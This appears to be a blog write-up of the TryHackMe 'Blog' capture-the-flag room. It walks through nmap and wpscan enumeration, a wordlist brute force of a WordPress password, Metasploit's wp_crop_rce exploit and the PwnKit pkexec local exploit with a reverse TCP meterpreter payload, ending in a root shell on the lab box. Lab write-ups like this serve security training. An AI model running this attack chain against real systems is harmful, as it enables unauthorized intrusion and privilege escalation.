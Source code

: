 ```yaml
---
title: /writeups/Blog
layout: post
permalink: /writeups/Blog
---
```

Writeup of THM Machine called <a href="https://tryhackme.com/room/blog">"Blog"</a>

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
</pre></td><td class="rouge-code"><pre>Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to Sq00ky for the root privesc idea ;) 
</pre></td></tr></tbody></table></code></pre></div></div>

<h1>Enumeration</h1>
<p>Obviously the first thing I did was an nmap scan:</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
</pre></td><td class="rouge-code"><pre>$ nmap -T4 -A -sV blog.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 15:42 CET
Nmap scan report for blog.thm < ip >
Host is up (0.069s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp   open     http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Billy Joels IT Blog The IT blog
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
5906/tcp filtered rpas-c2
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: , NetBIOS MAC:(unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2024-02-04T14:42:59+00:00
| smb2-time: 
|   date: 2024-02-04T14:42:59
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds 
</pre></td></tr></tbody></table></code></pre></div></div>

I personally didn't even try to enumerate smb further, luckily, I saw in other writeups that it's a honeypot
<p>However, we can see, that on port 80 there's an http server<p>
<h1>HTTP</h1>

<img src="/images/BlogMain.png" alt="Wordpress Home site" />


We can see, that it is a wordpress blog, so I run wpscan (I removed boring stuff): 

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
</pre></td><td class="rouge-code"><pre>┌──(silen㉿pop-os)-[~/Desktop/THM/Blog]
└─$ wpscan --url http://blog.thm -e u 
Interesting Finding(s):

[+] robots.txt found: http://blog.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%
 
[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01
 
[i] User(s) Identified:
 
[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 
[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
</pre></td></tr></tbody></table></code></pre></div></div>


<p>First of all, it tells us that the wordpress is running on version 5.0. Quick google search gets us CVE-2019-8943 to which, we need user login and password, but wpscan also helps us there as it gives us two usernames - "kwheel" and "bjoel". I decided to bruteforce them because I didn't have any other idea. Also, kwheel seemed to probably care less about her password than her son, so I tried to brute force her user first.</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
</pre></td><td class="rouge-code"><pre>┌──(silen㉿pop-os)-[~/Desktop/THM/Blog]
└─$ wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U kwheel -t 32
 
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / <oz#mJ@y8C$vq6@>                                                                                                                                                                                                                
Trying kwheel / <oz#mJ@y8C$vq6@> Time: 00:00:46 <                                                                                                                                                              > (<37> / 14347272)  0.02%  ETA: ??:??:??
 
[!] Valid Combinations Found:
 | Username: kwheel, Password: <oz#mJ@y8C$vq6@>
</pre></td></tr></tbody></table></code></pre></div></div>
As you can see we found valid combination. 

<p>I mentioned CVE-2019-8943 before, it turns out, there is a metasploit module which we can use called "exploit/multi/http/wp_crop_rce", after setting up every option and running exploit, we gain a shell!</p>

<h1>PrivEsc</h1>
I saw a nicer way (envolving reverse engineering) to do privelege escalation than I had done, but I will show my simple way using metasploit modules.

<p>The first module I run was "post/multi/manage/shell_to_meterpreter", which made it possible to use exploit suggester (post/multi/recon/local_exploit_suggester)<p/>
<p>Suggester tells us, that the system is vulnerable to CVE-2021-4032</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
</pre></td>
<td class="rouge-code">
 <pre>
msf6 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set session 4
session => 4
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lhost tun0
lhost => 37.37.37.37
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lport 9898
lport => 9898
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit
 
[*] Started reverse TCP handler on <ip>:9898 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.pltvpwc
[+] The target is vulnerable.
[*] Writing '/tmp/.zbzpuhuxuf/huogglp/huogglp.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.zbzpuhuxuf
[*] Sending stage (3045380 bytes) to <ip>
[+] Deleted /tmp/.zbzpuhuxuf/huogglp/huogglp.so
[+] Deleted /tmp/.zbzpuhuxuf/.vtxjvu
[+] Deleted /tmp/.zbzpuhuxuf
[*] Meterpreter session 5 opened (<ip>:9898 -> <ip>:59766) at 2024-02-04 18:35:48 +0100

meterpreter > shell
Process 5384 created.
Channel 1 created.
whoami
root

<p>After running which, we gain root access!</p>
<p>Now we can look for flags one of which is hidden in "/media/usb", and move to the next room :D</p>


Thank you for reading
